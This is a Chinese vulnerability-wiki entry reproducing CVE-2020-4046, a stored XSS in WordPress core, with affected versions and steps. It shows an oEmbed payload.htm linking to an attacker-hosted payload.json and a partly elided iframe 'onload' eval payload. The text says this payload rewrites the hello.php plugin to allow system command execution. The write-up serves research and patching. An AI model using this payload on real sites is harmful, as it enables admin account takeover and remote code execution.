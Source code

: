 （CVE-2020-4046）WordPress 5.3.4 储型XSS
========================================

一、漏洞简介
------------

该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

二、漏洞影响
------------

WordPress
5.3.4版本，5.2.7版本，5.1.6版本，5.0.10版本，4.9.15版本，4.8.14版本，4.7.18，
4.6.19版本，4.5.22版本，4.4.23版本，4.3.24版本，4.2.28版本，4.1.31版本，4.0.31版本，3.9.32版本，3.8.34版本，3.7.34版本。

三、复现过程
------------

要利用该漏洞，攻击者需要在其自身的web服务器上托管两个文件（这些文件的内容将在后面显示）。为使漏洞利用正常进行，被攻击的目标服务器必须能访问攻击者web服务器以下载payload。虽然WordPress有健全的外部资源引用控制机制，但是此类安全设置将会阻止WordPress嵌入其它正常的URL，因此实际场景中开启此安全设置是比较少见的。我们基于`@g0blinResearch`师傅的文章生成payload。然后将payload中插件地址修改为`hello.php`（也就是`/wp-content/plugins/hello.php`），该插件为WordPress默认插件且可以访问，同时进行了其他一些小的改动。该payload使用`https://eve.gd/2007/05/23/string-fromcharcode-encoder/`在线工具进行编码，以避免各种转义问题。在此演示中，对应的`payload.htm`如下：

    <HTML>
            <HEAD>
                    <LINK type="application/json+oembed" href="http://attackbox1.pentest.co.uk/payload.json">
            </HEAD>
    </HTML>

`payload.json`部分如下，（没有给出完整的利用代码是为了避免漏洞在未修复前被恶意利用）：

    {
            "type":"rich",
            "html":"<blockquote><iframe title=' width=\"'></iframe></blockquote><iframe src='noexist' title='xxx' 
             height=' title=' width=\"'' onload='eval(String.fromCharCode(118,97,114,…))'\"></iframe>"
    }

现在，我们用至少具有`贡献者`权限的账户登录目标站点，随后创建一个帖子以嵌入我们payload：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId24.png)

管理员随后查看帖子时：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId25.png)![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId26.png)

我们的payload已执行，并且对应`/wp-content/plugins/hello.php`文件被编辑成允许我们执行任意系统命令：

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7929
>
> https://pentest.co.uk/labs/research/subtle-stored-xss-wordpress-core/
